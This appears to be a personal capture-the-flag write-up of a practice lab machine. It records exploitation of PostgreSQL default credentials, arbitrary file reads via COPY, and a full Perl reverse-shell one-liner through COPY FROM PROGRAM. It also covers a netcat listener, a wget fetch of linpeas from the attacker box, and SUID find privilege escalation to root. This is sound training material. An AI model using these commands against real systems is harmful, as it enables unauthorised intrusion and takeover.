 Nmap scan revealed postgresql so I logged in from the attack machine using the default postgres creds:
![18ea7b229d658aefc3e2cc848dd6addb.png](../../../../../../_resources/18ea7b229d658aefc3e2cc848dd6addb.png)

CREATE TEMP TABLE yeet (INPUT TEXT);
COPY yeet from '/etc/passwd';
SELECT * FROM yeet;
![1adba8881fd021f0112c16003432ef71.png](../../../../../../_resources/1adba8881fd021f0112c16003432ef71.png)

Use strategy from above to read local.txt:
![8315e7bd24502c9d1de26e614f451698.png](../../../../../../_resources/8315e7bd24502c9d1de26e614f451698.png)

Use similar strategy to get shell on machine:
set up netcat listener on attackbox (this machine will only catch a listener on port 80 as the postgresql is expecting it there)
`nc -nlvp 80`

Test rce with a simple command:
![8dd624f181f6d18060f6717d16c737a4.png](../../../../../../_resources/8dd624f181f6d18060f6717d16c737a4.png)

Excellent. I tried to use a reverse python command with sockets, but that didn't work (or I just didn't know where to put quotes and such)

Also found perl on the system and found this guide: https://www.trenchesofit.com/2021/02/01/offensive-security-proving-grounds-nibbles-write-up-no-metasploit/ (couldn't copy and paste so I ended up viewing the page source, copying it, and then manually comparing to what was posted on the site that I couldn't copy)

After having already set up the table previously when testing with the 'which python' command, all that needed to be run was:
`COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.49.188:80");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};''';`

And then I also ran this to trigger the shell connect:
`SELECT * FROM cmd_exec;`

Resulting in a netcat shell being returned to my listener set up on port 80:
![11700346868d8c6e9052c8ba07b5ed38.png](../../../../../../_resources/11700346868d8c6e9052c8ba07b5ed38.png)

Use python to make shell better:
`python -c 'import pty;pty.spawn("/bin/bash")'`

Get linpeas.sh on the device:
(From attack box in directory with linpeas.sh)
`python3 -m http.server 80`
(From target)
`wget http://[attacker_ip]/linpeas.sh`

It found an SUID set on the find binary. Testing with:
`find . -exec whoami \;`

It shows root over and over again. Now time to figure out how to use it to get a root shell: https://gtfobins.github.io/gtfobins/find/

![29f92610a18a09d29737de78bc5a1497.png](../../../../../../_resources/29f92610a18a09d29737de78bc5a1497.png)
`find . -exec /bin/sh -p \; -quit`

Got root shell finally. Grabbed proof.txt from /root/ 
